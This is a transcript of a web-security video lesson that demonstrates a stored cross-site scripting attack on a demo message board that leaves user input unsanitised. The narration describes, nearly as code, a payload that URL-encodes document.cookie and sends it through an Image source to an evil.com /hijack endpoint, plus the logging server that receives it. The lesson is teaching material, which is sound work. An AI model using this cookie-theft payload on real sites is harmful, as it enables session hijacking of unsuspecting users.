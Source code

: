 Instructor: [00:00] Now that our target site is protected against man in the middle and CSR protects, let's put our attacker hat back on and move on to our next attack, cross-site scripting, otherwise known as XSS.

[00:12] XSS attacks occur when an attacker uses a web application to inject malicious code, generally in the form of a browser-side script to unsuspecting users on otherwise trusted application. This occurs anywhere in web application, includes user input and its output while validating or encoding it.

[00:30] The way this works is that a message gets pushed under messages array and message that gets pushed is message from our user's username, followed by the value of the message parameter from the request.

[00:44] If you notice carefully, this message isn't sanitized in anyway, nor is it validated. If we then go down to our get route, we could see the messages are just printed out again, joined by two line breaks without doing any special formatting to turn a HTML into HTML entities.

[01:02] What this means is that any HTML present in messages will just be printed out as plain HTML. We can verify that this is vulnerable to XSS by attempting to include some HTML in our message. If I say imagesource = http://placekitten.com/400/400, I could see that an actual HTML for the image is placed, rather than the string representing that HTML.

[01:34] Now that we've proven this page is vulnerable to XSS, we could do something a bit more malicious as our attacker. Let's try to steal the session cookie. We'll go to the server running evil.com, which is a pretty basic express application serving content from our static directory.

[01:50] Let's add an endpoint, which we'll call /hijack. When this endpoint is getted, let's log some information. We'll say console.log received cookie and we'll just damp the information contained in the payload parameter of our get query. We'll respond with status 200 and with the message OK.

[02:24] As an attacker, we want to hit this endpoint. We'll make another script and what this script will do is it will attempt to extract the session cookie. First we'll say our payload is = document.cookie. Because we're transmitting it over HTTP, we'll call encode URL component on it.

[02:51] One of the easiest ways to transmit information is not via XHR or VFH, we'll just create a new image. We'll say const img = newImage. We'll set the source of our image to be equal to https://evil.com:666/hijack, which is our endpoint. It'll have a payload of our payload. That should do it.

[03:27] Let's paste this message in now to our form. Hit submit. We could see that our request has gone out to evil.com:666/hijack with our payload, which contains our session ID. You could also notice that in the log output of our evil.com server is now printing out the cookie, thus completing our exercise attack.
